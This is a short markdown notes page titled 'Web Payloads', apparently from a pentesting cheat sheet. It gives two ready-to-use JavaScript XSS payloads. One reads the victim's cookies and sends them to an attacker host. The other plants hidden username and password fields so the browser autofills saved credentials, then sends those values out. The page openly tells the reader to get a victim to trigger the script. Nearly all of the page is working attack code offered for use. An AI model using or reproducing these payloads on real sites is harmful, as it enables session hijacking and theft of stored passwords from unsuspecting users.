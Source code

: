 ```yaml
---
title: Web Payloads
published: true
---
```


Cookie Stealer:

```js
let cookie = document.cookie

let encodedCookie = encodeURIComponent(cookie)

fetch("http://<LHOST-IP>/exfil?data=" + encodedCookie)
```

This code can be hosted in a file called xss.js or something, and just try and have the victim reach the page to trigger it and send you a cookie!


Steal Saved Passwords:

```js
let body = document.getElementsByTagName("body")[0]
var u = document.createElement("input");
u.type = "text";
u.style.position = "fixed";
//u.style.opacity = "0";
var p = document.createElement("input");
p.type = "password";
p.style.position = "fixed";
//p.style.opacity = "0";
body.append(u)
body.append(p)

setTimeout(function(){ 
fetch("http://<LHOST-IP>/k?u=" + u.value + "&p=" + p.value)
}, 5000);
```